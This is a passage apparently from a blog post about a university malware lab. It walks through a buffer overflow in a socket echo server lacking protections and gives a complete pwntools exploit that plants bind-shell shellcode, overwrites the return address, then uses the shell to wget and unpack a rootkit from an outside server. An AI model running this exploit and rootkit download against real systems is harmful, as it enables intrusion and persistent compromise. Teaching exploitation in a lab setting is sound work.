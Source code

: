 
As you can see this is a basic program that listens on a socket and echos "Hello: *whatever they enter*" in a loop indefinitely. However, in the interact function, it allows the user to send up to 1024 bytes into a 256-byte buffer. This is a classic buffer overflow.

![target](/images/blog/2023-06-07-malware-lab-s23-blog-post/target.png)

As you can see the target also had no binary protections, and ASLR was disabled on the target server. Because of this, exploitation was pretty trivial.

## Exploitation

For exploitation, we used a sort of two-stage payload. Essentially, our script would hijack the instruction pointer of the target program, and then start a bind shell on another port. Next, the script would connect to that bind shell, and automatically install the rootkit after downloading it from some static server (my personal website in this case).

Since we had several groups, we hosted several target machines and several payloads. Each group was assigned a target number which they would input into this script. Then the script would be configured to attack their target with their payload.

Here is the completed script:

```py
from pwn import *

'''
Set the below target number to your assigned target number to automate the installation process
'''
target_num = 1

# ---------------------------------

context.arch = 'amd64'

# obtained using gdb
base_addr = 0x7fffffffea70
diff = 0x7fffffffdd38 - 0x7fffffffdb20

target_addr = 'mw-demo.roryhemmings.com'
target_port = target_num*1000 + 1000
stage_two_port_external = target_num*1000 + 1002
stage_two_port_internal = 2002

rootkit_download_addr = f'mw-demo.roryhemmings.com/rootkit{target_num}.tz'
rootkit_filename = f'rootkit{target_num}.tz'

# Set up the connection to the target system
target = remote(target_addr, target_port)

# Generate the stage 1 shellcode to connect to the target
stage1_shellcode = shellcraft.amd64.linux.bindsh(stage_two_port_internal, target_addr)

# Assemble and send the stage 1 shellcode to the target system
assembled_stage1_shellcode = asm(stage1_shellcode)

padding = b'\0' * (diff - 1 - len(assembled_stage1_shellcode))
raddr = p64(base_addr + 1)

payload = b'\0' + assembled_stage1_shellcode + padding + raddr
target.send(payload)

# Connect to bind shell and install rootkit
setup_target = remote(target_addr, stage_two_port_external)
setup_target.sendline(f'wget {rootkit_download_addr}'.encode('ascii'))
setup_target.sendline(f'tar -xzf {rootkit_filename}'.encode('ascii'))
```